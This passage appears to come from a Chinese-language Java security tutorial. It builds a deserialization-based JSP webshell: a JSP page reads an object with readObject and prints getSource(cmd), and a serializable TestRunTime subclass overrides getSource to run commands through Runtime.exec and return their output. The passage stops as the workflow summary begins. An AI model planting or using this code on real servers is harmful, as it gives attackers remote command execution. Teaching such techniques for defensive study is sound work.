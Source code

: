 ```java
		Test test = (Test) objectInputStream.readObject();
		// 利用父类方法调用子类重写方法
    out.println(test.getSource(cmd));
%>
```

构建一个`TestRunTime`用于可以用于序列化进行传输的实体类，首先继承 `Test` 类，并重写`Test`类的`getSource`方法，更改方法体的代码，再实现`Serializable`接口，使其能够被序列化。

```java
// Test.java
package org.javasec;

import java.io.IOException;

public class Test {
   public String getSource(String c) throws IOException {
      return c;
   }
}
```

```java
// TestRunTime.java
package org.javasec;

import java.io.IOException;
import java.io.InputStream;
import java.io.Serializable;

public class TestRunTime extends Test implements Serializable {

	@Override
	public String getSource(String c) throws IOException {
		StringBuilder stringBuffer = new StringBuilder();

		try {
			Process     process     = Runtime.getRuntime().exec(c);
			InputStream inputStream = process.getInputStream();
			int         chr         = 0;

			while ((chr = inputStream.read()) != -1) {
				stringBuffer.append((char) chr);
			}
		} catch (IOException ignored) {
		}
		return stringBuffer.toString();
	}
}

```

代码都准备好了，整理下流程：
